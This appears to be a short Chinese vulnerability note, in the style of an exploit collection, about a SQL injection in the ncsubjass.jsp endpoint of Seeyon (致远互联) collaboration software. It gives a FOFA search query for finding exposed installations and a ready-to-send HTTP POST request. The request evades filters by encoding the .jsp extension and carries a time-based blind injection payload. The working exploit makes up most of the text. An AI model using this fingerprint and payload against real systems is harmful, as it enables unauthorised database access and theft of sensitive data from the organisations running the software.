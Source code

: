 **fofa**

```
body="applyTheme/css/StyleSheet.css"
```

**一、漏洞简述**

致远互联智能协同是一个信息窗口与工作界面,进行所有信息的分类组合和聚合推送呈现。通过面向角色化、业务化、多终端的多维信息空间设计,为不同组织提供协同门户,打破组织内信息壁垒, 构建统一协同沟通的平台，其接口ncsubjass.jsp存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

```yaml
POST /fenc/ncsubjass.j%73p HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

subjcode=';WAITFOR DELAY '0:0:5'--
```

